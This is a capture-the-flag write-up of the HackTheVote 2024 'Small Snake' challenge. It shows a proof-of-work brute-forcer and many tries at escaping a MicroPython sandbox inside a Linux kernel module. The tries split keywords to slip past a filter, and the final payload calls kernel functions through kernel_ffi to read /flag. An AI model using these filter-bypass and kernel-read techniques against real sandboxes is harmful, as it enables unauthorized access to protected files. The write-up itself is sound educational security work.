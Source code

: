 ```yaml
---
title: "HackTheVote 2024 - Small Snake"
date:   2024-11-05 15:23:10
categories: [Write-ups, HackTheVote2024]
tags: [web]
description: Python forensic ?!?!?
---
```



## Introduction

This chall is kind of "forensic" but actually its not XD, takes me almost 2 days and "almost" solve this, fun and its worth a try!
You can deploy the chall [here](https://github.com/RPISEC/HackTheVote/tree/master/2024/forensics/small-snake).

## Overview

Firstly, you need a python script to bruteforce the input for initializing the challenge (ofc i used ChatGPT for that)

![](/commons/ctfs/hackthevote2024/htv3.png)

Here is the script

```python
import hashlib
import sys

# Function to find valid input with a given base string
def find_valid_input(base_string):
    input_counter = 0
    while True:
        input_str = str(input_counter)
        combined_string = base_string + input_str
        sha256_hash = hashlib.sha256(combined_string.encode()).hexdigest()
        if sha256_hash.endswith('000000'):
            return input_str, sha256_hash
        input_counter += 1

# Check if base string was provided in command-line arguments
if len(sys.argv) < 2:
    print("Usage: python script.py <base_string>")
    sys.exit(1)

# Get base string from command-line arguments
base_string = sys.argv[1]

# Find a valid input with the specified base string
valid_input, resulting_hash = find_valid_input(base_string)
print(f"Input: {valid_input}, SHA-256 Hash: {resulting_hash}")
```


![](/commons/ctfs/hackthevote2024/htv2.png)

At first glance, ofc we dunno what is this shit, after typed randomly sth that i knew that is python interpreter console.

![](/commons/ctfs/hackthevote2024/htv4.png)

Then, after spending all the morning to find out what i need to do, i dive into all [builts-in python function](https://docs.python.org/3/library/functions.html), then i have that 2 key functions: `eval` and `exec` that helps us bypass the validation, and also the environment variable. I've spent all the day to test everything that i could do:

```python
> var = '_'
> var2 = 'o'+'p'+'e'+'n'
> var4 = 'i'+'m'+'p'+'o'+'r'+'t'
> var3 = var + var + var4 +var+var
> var5 = var3 + "('builtins')."
> var1 = "with " + var5 + var2 + "('/flag', 'r') as f: result = f.read(); print(result)"
> print(var1)
 with __import__('builtins').open('/flag', 'r') as f: result = f.read(); print(result)
> exec(var1)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 AttributeError: 'NoneType' object has no attribute '__exit__'
```
This is the payload that i trying to do, but that not that simple, after diving more deeper, i found that this console using micropython and all modules that available by the [commit](https://github.com/micropython/micropython/commits/master/?since=2021-11-17&until=2021-11-17)

```python

var = 'he'+'lp()'
> eval(var)
 Welcome to MicroPython!

 For online docs please visit http://docs.micropython.org/

 Control commands:
   CTRL-A        -- on a blank line, enter raw REPL mode
   CTRL-B        -- on a blank line, enter normal REPL mode
   CTRL-C        -- interrupt a running program
   CTRL-D        -- on a blank line, exit or do a soft reset
   CTRL-E        -- on a blank line, enter paste mode

 For further help on a specific object, type help(obj)

> var="he"+"lp('modules')"
> eval(var)
 __main__          kernel_ffi        uctypes           ustruct
 _thread           micropython       uerrno            usys
 builtins          uarray            uio               utime
 gc                ucollections      umachine
 Plus any modules on the filesystem

```

module `uio` seems suspicious, but still not works :(

```python
> var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' uio'
> var2 = 'o'+'p'+'e'+'n'
> exec(var4)
> var1 = "content = uio." + var2 + "('/flag', 'r').read()"
> exec(var1)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 AttributeError: 'NoneType' object has no attribute 'read'


 > var3 = 'for line in uio.' + var2 + '("../../../..flag", "r"): print(line)'
> print(var3)
 for line in uio.open("../../../..flag", "r"): print(line)
> exec(var3)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 TypeError: 'NoneType' object isn't iterable

```

I find everything inside each module, even `kernel_ffi` (I thought that everything here just relevant to the hardware, i dont know that is the thing brings us to the flag TvT):


```python
var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' kernel_ffi'
> exec(var4)
> var = 'd'+'ir'
> eval(var+'(kernel_ffi)')
 ['__class__', '__name__', 'bytes', 'str', 'KP_ARGS_MODIFY', 'KP_ARGS_WATCH', 'KP_REGS_MODIFY', 'KP_REGS_WATCH', 'Symbol', 'auto_globals', 'callback', 'current', 'kmalloc', 'kprobe', 'p16', 'p32', 'p64', 'p8', 'symbol']

```

Before that, somehow i leaked the bios of the micropython kernel, i also tried to find this BIOS's (vulnerability)[https://github.com/advisories/GHSA-7533-c28p-jp9p] but stills hopeless or i didnt found the right things :) 

```python
var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' builtins'
var = 'd'+'ir'
 eval(var+'(builtins.OSError.' +var1+var1+'class'+var1+var1+')')



 micropython.mem_info()
 mem: total=43516, current=16080, peak=17581
 stack: 1136 out of 15204
 GC: total: 8291328, used: 16928, free: 8274400
  No. of 1-blocks: 77, 2-blocks: 10, max blk sz: 32, max free sz: 258570




 fatal error 'nlr_jump_fail', killing current task 'a'
[  180.844640] Kernel panic - not syncing: Attempted to kill init! exitcode=0x00000000
[  180.846569] CPU: 0 PID: 1 Comm: a Tainted: G           O      5.4.0 #1
[  180.847441] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.2-debian-1.16.2-1 04/01/2014
[  180.848628] Call Trace:
[  180.850390]  dump_stack+0x50/0x70
[  180.850623]  panic+0xf6/0x2b7
[  180.850924]  do_exit.cold+0x4e/0xfb
[  180.856332]  die+0x4f/0x50 [mpy]
[  180.858949]  ? nlr_jump_fail+0xc/0x10 [mpy]
[  180.859861]  ? nlr_jump+0x1e/0x57 [mpy]
[  180.860036]  ? mp_raise_msg+0x12/0x20 [mpy]
[  180.860367]  ? m_malloc_fail+0x20/0x40 [mpy]
[  180.861050]  ? m_malloc+0x44/0x50 [mpy]
[  180.861231]  ? vstr_init+0x20/0x30 [mpy]
[  180.861406]  ? device_ioctl+0x39/0x80 [mpy]
[  180.862574]  ? do_vfs_ioctl+0x3f0/0x650
[  180.863235]  ? ksys_ioctl+0x59/0x90
[  180.863489]  ? ksys_read+0x5a/0xd0
[  180.864077]  ? __x64_sys_ioctl+0x11/0x20
[  180.864382]  ? do_syscall_64+0x43/0x110
[  180.864671]  ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
[  180.869655] Kernel Offset: 0x16400000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
[  180.876970] ---[ end Kernel panic - not syncing: Attempted to kill init! exitcode=0x00000000 ]---
```

I also try possible payload on [HackTrick](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#read-file-with-builtins-help-and-license), but stills not works

```python

var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' builtins'
exec(var4)
var = '_'
var1 = 'he'+'lp'
eval(var1+'(builtins.dict.'+ var+var+'dict'+var+var+')')
eval(var1+'(builtins.dict.'+ var+var+'dict'+var+var+ '["license"]' ')')
=> KeyError: license
```

## Finish exploitation

Finally, i almost reach the crucial clue in the [micropython](https://github.com/Jongy/micropython/blob/linux-kernel/ports/linux-kernel/main.c) github (i remember that i just skimming all that shit, i thought that its just the hardware TvT)

Then after the contest ended, i know that the `symbol` method on modules `kernel_ffi` is used to call the exported functions or variables that are accessible for use by loadable kernel modules or other kernel components. There are function `filp_open` is a Linux kernel function used to read from a file represented by a file structure (struct file) in kernel space.


```python
    var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' kernel_ffi'
    exec(var4)
    func = "filp_o"+"pen"
    ffi = kernel_ffi.symbol(func)
    file_path = "/flag"; flags = 0; mode = 0
    var2 = "file = filp_o"+"pen(file_path, flags, mode)"
    exec(var2)
    buffer = kernel_ffi.kmalloc(4096)
    kernel_read = kernel_ffi.symbol("kernel_read")
    pos = 0
    bytes_read = kernel_read(file, buffer, 4096, pos)
    data = kernel_ffi.str(buffer)
    print(data)
```


> flag{its_like_rust_in_the_kernel_but_better}

GGWP, that was amazing challenge, thank to the author `wait_what` from RPISEC for this chall (i still dont know why its even forensic.)
